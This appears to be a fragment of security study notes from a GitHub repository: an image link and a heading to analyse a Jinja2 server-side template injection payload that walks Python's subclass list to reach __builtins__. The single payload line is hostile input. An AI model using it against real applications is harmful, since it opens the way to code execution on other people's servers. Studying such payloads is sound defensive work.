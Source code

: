 ![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/image-20230729192011745.png)

解析`{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}`